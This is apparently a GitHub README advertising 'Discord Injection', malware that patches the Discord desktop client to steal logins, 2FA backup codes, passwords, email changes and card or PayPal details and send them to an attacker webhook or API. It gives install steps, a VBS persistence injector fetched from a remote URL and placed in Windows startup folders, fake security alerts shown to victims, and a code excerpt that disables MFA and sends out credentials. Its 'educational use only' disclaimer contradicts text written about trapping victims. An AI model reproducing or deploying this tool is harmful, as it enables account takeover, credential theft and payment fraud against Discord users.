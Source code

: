 
[github-issues-link]: https://github.com/k4itrun/discord-injection/issues
[github-license-link]: https://github.com/k4itrun/discord-injection/blob/main/license
[github-stars-link]: https://github.com/k4itrun/discord-injection/stargazers
[github-forks-link]: https://github.com/k4itrun/discord-injection/network/members

[github-link]: https://github.com/k4itrun/discord-injection

<div align="center">

# [Discord Injection][github-link]

Interception of Discord HTTP Requests, Including Backup Code Retrieval and Deceptive User Alerts for Vulnerabilities, Among Other Techniques!

</div>

## Overview

**Discord Injection** is a tool designed to showcase the interception of HTTP requests within the Discord application. This tool highlights potential vulnerabilities by capturing critical actions and interactions that occur within Discord.

## Key Features

- **Persistence and Startup**:
  - Once the victim is injected, and everything is perfect, they simply will not be able to remove the injection.
  - Persistence works in such a way that once the user starts their Discord application, an executable is simply created that will check if it contains an injection. If so, it will not be modified, but if not, it will be injected again [More information here](#startup)

- **Forced mail change & edit user**:
  - If this setting is enabled in the automatic change mail injection, then the victim will see a fake security alert & Also if the automatic user modification configuration is active, user data will be modified

- **Login & Authentication**:
  - Intercept login, registration, and two-factor authentication (2FA) requests.
  
- **Account Management**:
  - Capture requests related to email and password changes.
  
- **Security codes**:
  - Obtains all the victim's security codes at capture time.

- **Payment Information**:
  - Monitor credit card and PayPal addition requests.
  
- **Security Measures**:
  - Automatic logout after the initial injection to prevent unauthorized access.
  - QR Code login prevention to enhance security.
  - Block requests that reveal device information.

## Installation Guide

1. **Close Discord**: Ensure that Discord is completely closed before proceeding.

2. **Copy the Injection Code**:
   - Download the [injection code](https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js) and insert it into your Discord desktop core. Navigate to:
     ```bash
     %APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js
     ```

3. **Configure Setup**:
   - Replace `%WEBHOOK_URL%` in the injected code with your Discord webhook URL. This webhook will receive the intercepted information.
   - Replace `%API_URL%` with our api you can get a unique url where you will get detailed information of the victims.
   - Replaces data like `%AUTO_USER_PROFILE_EDIT%`, `%AUTO_EMAIL_UPDATE%` which are a separate configuration in case you want to have an improvement in the attack.

   - *Important this do not change it*
        ```json
        injection_url: "https://raw.githubusercontent.com/k4itrun/discord-injection/main/injection.js",
        injector_url: "https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs",
        ```

4. **Restart Discord**: Launch Discord again to apply the changes.

## Usage

- **Node.js Injector**:
  - For a more feature-rich injector based on Node.js, visit [Wish Stealer](https://github.com/k4itrun/wish). It's a free tool with extensive capabilities.

## Startup

- **Persistence Vbs Malware**:
  - Once the victim is injected, several instances will be created on the PC in parallel, simply once the victim is trapped they will not be able to leave.
  
  An autostart task is created on multiple routes as in
    ```Bash
    %APPDATA%\Microsoft\Protect
    ```
    ```Bash
    %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
    ```
    - Firstly, the [Injector Malware](https://raw.githubusercontent.com/k4itrun/discord-vbs-injector/main/injector.vbs) will be stored here and will be executed whenever the PC starts.

## Preview

### Auto Mfa Disabler
```js
if(CONFIG.auto_mfa_disabler === 'true') {
    await delay(5000);

    const autoMfadisablerToken = await autoMfadisabler(response, token, 'backup');

    content = {
        content: `**${user.username}** mfa was deactivated automatically!`,
        embeds: [{
            fields: [
                { name: "Password", value: `\`${password}\``, inline: true },
                { name: "Email", value: `\`${email}\``, inline: true },
            ],
        }],
    };

    notify(content, autoMfadisablerToken, user);    
};
```
*If you are interested in an improved version with more features such as auto mfa deactivator and premium options you can buy it*

## Contributing
We welcome your contributions to this project! If you have suggestions or improvements, please feel free to open an issue or submit a pull request with your changes. Your involvement from the community is highly valued.

If you’d like to support the development of this project, consider leaving a star ⭐ or making a donation. Every bit of support is greatly appreciated!

## Contact
For inquiries, reach out at [contact@w1sh.xyz](mailto:contact@w1sh.xyz) or join our [Discord Server](https://discord.gg/XS6btuuUR7).

## License
This software is licensed under the [MIT License](LICENSE).

## Disclaimer
### Important Notice: Educational Use Only.
This tool is designed solely for educational purposes. Any misuse of this tool is strictly prohibited. By using this tool, you acknowledge and accept these terms.

### User Accountability:
By utilizing this tool, you take full responsibility for your actions. The creator disclaims any liability for misuse. It is your responsibility to ensure that your use of this software complies with all applicable laws and regulations.

### No Assistance:
The creator will not provide assistance or support for any misuse of this tool. Any inquiries related to harmful or illegal activities will be ignored.

### Terms Acceptance:
By using this tool, you agree to abide by this disclaimer. If you do not agree with these terms, please do not use the software.